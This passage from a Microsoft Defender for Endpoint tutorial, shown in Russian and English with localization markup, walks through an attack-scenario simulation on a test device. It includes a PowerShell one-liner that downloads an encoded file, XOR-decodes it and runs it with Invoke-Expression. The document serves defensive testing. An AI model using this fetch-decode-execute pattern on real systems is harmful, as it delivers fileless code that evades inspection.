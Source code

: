    1. <span data-ttu-id="eebb1-146">Убедитесь, что тестового устройства на борту [в Microsoft Defender для конечной точки)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="eebb1-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="eebb1-147">Если вы используете существующий клиент и реализуете группы устройств, создайте специальную группу устройств для тестового устройства и вытолкнуйте его на верхний уровень в конфигурации UX.</span><span class="sxs-lookup"><span data-stu-id="eebb1-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="eebb1-148">Запуск моделирования сценария атаки</span><span class="sxs-lookup"><span data-stu-id="eebb1-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="eebb1-149">Для запуска моделирования сценария атаки:</span><span class="sxs-lookup"><span data-stu-id="eebb1-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="eebb1-150">Войдите на тестовом устройстве с учетной записью тестовых пользователей.</span><span class="sxs-lookup"><span data-stu-id="eebb1-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="eebb1-151">Откройте окно Windows PowerShell на тестовом устройстве.</span><span class="sxs-lookup"><span data-stu-id="eebb1-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="eebb1-152">Скопируйте следующий сценарий моделирования:</span><span class="sxs-lookup"><span data-stu-id="eebb1-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="eebb1-153">Если вы откроете этот документ в веб-браузере, могут возникнуть проблемы с копированием полного текста без потери определенных символов или введения дополнительных разрывов строк.</span><span class="sxs-lookup"><span data-stu-id="eebb1-153">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="eebb1-154">Скачайте этот документ и откройте его в Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="eebb1-154">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="eebb1-155">По запросу вклеить и запустить скопированные скрипты.</span><span class="sxs-lookup"><span data-stu-id="eebb1-155">At the prompt, paste and run the copied script.</span></span>
